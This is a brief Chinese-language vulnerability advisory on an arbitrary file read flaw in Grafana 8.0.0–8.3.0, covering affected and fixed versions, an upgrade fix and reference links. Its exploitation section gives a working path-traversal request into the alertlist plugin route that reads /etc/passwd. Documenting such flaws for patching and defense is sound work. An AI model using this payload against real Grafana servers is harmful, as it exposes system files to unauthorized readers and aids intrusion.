 ### 一 漏洞描述
Grafana 是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana 可以在网络浏览器里显示数据图表和警告。需要注意的是该漏洞并不依赖于某个特定的插件，而是因为 Grafana 在解析插件路由的时候没有对输入进行有效过滤造成的任意文件读取。

影响版本：  
Grafana 8.0.0 - 8.3.0

安全版本：  
Grafana 8.3.1, 8.2.7, 8.1.8, 8.0.7

### 二 漏洞利用
`/public/plugins/alertlist/../../../../../../../../../../../etc/passwd`

### 三 漏洞修复
升级

> 参考链接  
> 分析: https://xz.aliyun.com/t/10647  
> 预警: https://www.freebuf.com/articles/paper/309570.html  
> 复现: https://blog.csdn.net/qq_45244158/article/details/121836825
